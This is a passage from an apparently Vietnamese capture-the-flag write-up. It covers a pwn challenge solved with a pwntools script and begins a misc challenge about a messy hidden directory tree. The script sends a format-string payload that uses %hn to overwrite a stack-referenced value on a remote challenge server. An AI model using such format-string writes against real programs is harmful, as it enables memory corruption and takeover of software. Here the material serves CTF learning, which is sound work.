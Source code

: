 ```
![image](https://hackmd.io/_uploads/S1FySohbJx.png)

1 điều chú ý nữa là địa chỉ trỏ tới thằng 0xdeadbeef được gán cho địa chỉ stack nên ta lấy offset đó để ghi luôn , nếu không thì ta sẽ kh có con trỏ để ghi :v

script 

```
#!/usr/bin/env python3

from pwn import *

exe = ELF("./sp_entrypoint_patched")
libc = ELF("./libc.so.6")
ld = ELF("./ld-linux-x86-64.so.2")

context.binary = exe
p = remote('94.237.63.224',50822)
#p = process()
#gdb.attach(p,gdbscript='''
#           brva 0x0000000000000D95
#           ''')
#input()
p.sendlineafter(b'> ',b'1')
payload = f"%{0x1337}c%7$hn".encode()
p.send(payload)


p.interactive()
```

flag : 

![image](https://hackmd.io/_uploads/ryxKdHohZ1g.png)

----------


17 . misDIRection (misc)
--------

1 bài misc làm mình khá nhức đầu (éo hiểu) =)))

sau khi tải về và unzip ta được thằng .secret chứa rất nhiều thư mục và các file , đại loại như sau : 

![image](https://hackmd.io/_uploads/SkQfg16-1x.png)


thằng 0 thì chứa 

![image](https://hackmd.io/_uploads/ry4Xxk6b1x.png)

thằng 1 chứa 

![image](https://hackmd.io/_uploads/HkmVeJTWJl.png)


hmmmmmm , mấy thằng khác cũng khá lộn xộn :>>>  

thử ls -LR ra thì thấy như thế này , ta sẽ thử sắp xếp thứ tự xem sao

```